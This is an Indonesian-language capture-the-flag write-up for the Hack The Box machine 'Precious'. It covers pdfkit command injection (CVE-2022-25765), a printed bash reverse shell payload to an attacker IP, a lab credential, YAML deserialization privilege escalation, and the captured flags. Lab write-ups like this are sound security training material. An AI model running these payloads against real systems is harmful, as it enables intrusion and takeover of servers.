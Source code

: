 # Precious 
**SOLVED : JAN 11 | 2023**
![Precious](https://user-images.githubusercontent.com/92077284/211991670-4b07aee9-b558-4b25-9b42-47e17659e981.png)

## Information Gathering
![image](https://user-images.githubusercontent.com/92077284/213347545-adaa6f23-5523-436a-a37d-9aa5c28a627a.png)  
![image](https://user-images.githubusercontent.com/92077284/211992854-535f66c3-a172-4997-9d7d-82a58bb42449.png)  
Pertama - tama lakukan proses **nmap** pada ip yang sudah diberikan pada web htb, hal ini berfungsi untuk memeriksa layanan yang tersedia dalam jaringan  
Didapati ada 2 port, yaitu port **22 dan 80**, serta alamat web yaitu precious.htb  
Disini disimpulkan bahwa **port 22** untuk akses ssh, dan **port 80** adalah penyedia webnya  
Untuk mengakses precious.htb diperlukan command `sudo vim /etc/hosts` untuk menambahkan `10.10.11.189 precious.htb`  
![image](https://user-images.githubusercontent.com/92077284/211993812-b3068588-4e9d-408d-af3d-45356d7fba78.png)  
Masuk ke **10.10.11.189**  
![image](https://user-images.githubusercontent.com/92077284/211994354-6a6245cb-f01b-4bde-8634-d19b03e707eb.png)  
Apabila dicoba isi 'http://google.com' maka akan menunjukan tampilan seperti ini, karena tertulis _Cannot load remote URL!_ maka saya coba untuk _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211995365-debd1424-dd52-41d1-a55e-4d5855cc7e37.png)  
disini akan dilakukan hosting pada port 80 dengan ip yang sesuai dengan ip di **tun0**, agar nantinya dapat ditangkap oleh website  
![image](https://user-images.githubusercontent.com/92077284/211996025-da71de3e-fdf1-44f5-9b52-be06a30c0176.png)  
![image](https://user-images.githubusercontent.com/92077284/213347427-0cbe2aeb-7399-44cc-9ece-ac74a25d8131.png)  
Lalu coba masukan 'http://10.10.14.30:80' ke dalam website  
![image](https://user-images.githubusercontent.com/92077284/211996453-a4bd650a-8551-4b1d-bd86-c485a273c7d7.png)  
Didapati file pdf sebagai berikut, yang bila dibuka akan menampilkan list directory di tempat _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211996521-9d32d634-253e-4ae5-b2f6-144b1ce999dc.png)  
![image](https://user-images.githubusercontent.com/92077284/213354581-a64b7b8a-5786-406b-b3fa-3ae0ca537556.png)  
Setelah itu analisa file pdf menggunakan **exiftool**, file di analisa menggunakan tool ini karena saya ingin mengetahui meta data dari file atau ada hal yang mencurigakan dari file.   
![image](https://user-images.githubusercontent.com/92077284/211996948-fb392098-7706-4054-8e85-0d6e1068d64f.png)  
Disini saya memanfaatkan **pdfkit v0.8.6** sebagai celah untuk masuk kedalam sistem, pdfkit adalah _PDF document generation library_ untuk browser, yang fungsinya memudahkan browser membuat file, namun pada versi ini terdapat celah kerentanan dimana kita dapat melakukan _Command Injection_ karena URL tidak di sanitasi.  

**CVE-2022–25765** Source: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
Dari situ dapat dibuat sebuah _reverse shell_ dengan bantuan **Hack-Tools**  
**Hack-Tools** = https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi  
![image](https://user-images.githubusercontent.com/92077284/213356703-8097f1a2-5a5f-498d-9ece-69cbb88491eb.png)  

```
http://example.com/?name=#{'%20`sleep 5`'}
http://example.com/?name=#{'%20``'}
```
menjadi   
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
Untuk memulai tahapannya, pertama coba untuk _listen_ pada port 443  
![image](https://user-images.githubusercontent.com/92077284/213357167-d793b9f5-d2eb-4dfc-b7f7-adae4d6ca264.png)  
lalu buat _payload_ dan masukan kedalam website, untuk melakukan _command injection_  
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
![image](https://user-images.githubusercontent.com/92077284/213357672-62b90aeb-1762-418d-9e22-edc9fa001afb.png)  
lalu aktivitas akan terekam pada terminal yang tadi  
![image](https://user-images.githubusercontent.com/92077284/213358242-9cd66e8b-48e6-4f71-a2b9-86420ffc9b8b.png)  
_Note : IP berbeda karena WU dibuat pada hari berbeda_  

Karena sudah masuk, maka disini akan dilakukan pencarian **flag**  
Yang saya lakukan pertama adalah masuk ke directory awal  
![image](https://user-images.githubusercontent.com/92077284/213358684-a63b2268-5d14-4eef-ad78-9a6dba781803.png)  
lalu disini saya memutuskan untuk masuk ke directory **home** karena biasanya user akan disimpan pada directory ini  
![image](https://user-images.githubusercontent.com/92077284/213358862-5dbc5421-0c27-4afe-b2af-ae987b8e7fea.png)  
Ditemukan 2 user , yaitu **henry** dan **ruby**, disini saya mencoba masuk ke **henry**, namun ada keterbatasan akses
setelah itu saya mencoba untuk masuk ke **ruby**  
![image](https://user-images.githubusercontent.com/92077284/213359072-53bf1b90-981f-44d6-b171-b49d3ba1d2c5.png)  
Disini awalnya saya melihat apa saja yang ada dalam direcotry ini, lalu setelah mencoba-coba, ternyat directory **.bundle** dapat diakses, dan ternyata menampung kredensial dari **henry**

Kredensial henry : `henry:Q3c1AqGHtoI0aXAYFH`  

Setelah itu saya masuk ke akun henry menggunakan *ssh*  
![image](https://user-images.githubusercontent.com/92077284/213359292-7cf62917-2301-4c03-95e2-779249e58a0c.png)  
setelah itu ternyata sudah bisa diakses untuk **user.txt**, dan disini juga sekaligus menjadi **FLAG USER**
![image](https://user-images.githubusercontent.com/92077284/213359417-af9dc795-4d34-4037-a835-8257176cc76c.png)

**FLAG USER** = `a13c7cb8903ad65d586d143f089a7d31`

Step berikutnya saya coba untuk mengakses *root* ternyata belum bisa  
![image](https://user-images.githubusercontent.com/92077284/213359997-fdb4c873-b486-49d0-ba13-a690ca14b368.png)  

Step selanjutnya saya memeriksa *privilage henry*  
![image](https://user-images.githubusercontent.com/92077284/213359780-b77de642-3b9e-4832-9939-adc80791b6bd.png)  
Ternyata ada file yang mengatur akses privilage yaitu pada `/usr/bin/ruby /opt/update_dependencies.rb`  
Disini saya coba untuk membaca file **update_dependencies.rb**  
![image](https://user-images.githubusercontent.com/92077284/213360542-7f2c594e-b5be-4dde-92fe-dbe89aadac11.png)  
Setelah dianalisa, ternyata bagian ini dapat dilakukan **YAML Deserialization Attack** karena terdapat bagian pada file yang mengatakan `YAML.load(File.read("dependencies.yml"))`

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

Karena tadi yang menjadi permasalahan adalah soal _permission access_,  
![image](https://user-images.githubusercontent.com/92077284/213361192-0d8ba32a-a978-4f30-84ac-36199edbdd59.png)  
maka kita bisa merubah akses henry menjadi lebih tinggi, yaitu dengan menambahkan file dependencies.yml dengan template pada **source** pada bagian **git_Set** menjadi `"chmod u+s /bin/bash"`  
![image](https://user-images.githubusercontent.com/92077284/213362505-18ff1a20-0db7-49ae-80ce-6f9286e13587.png)  
![image](https://user-images.githubusercontent.com/92077284/213362901-2ac4d9a0-902b-415d-8a5e-1f312a733ad9.png)  
![image](https://user-images.githubusercontent.com/92077284/213362528-2e9937aa-77f8-4b07-a752-f343fe7d0f6b.png)  
Setelah menyimpan file `dependencies.yml` pada folder henry, sekarang coba untuk melakukan update permission dengan command `sudo /usr/bin/ruby /opt/update_dependencies.rb` dan sekarang directory **/bin/bash** sudah dapat diakses  
![image](https://user-images.githubusercontent.com/92077284/218143683-2d4fdcc1-3adb-45b9-999f-f2061d9fd95e.png)  
Setelah itu masuk kedalam bash untuk mengakses directory root, dan mengambil flagnya  
![image](https://user-images.githubusercontent.com/92077284/218143897-e63a82af-ec0e-43dd-ac11-64c16937f6f3.png)  

**FLAG ROOT** = `afa996c3ff48e061a0849b9f5848fff2`

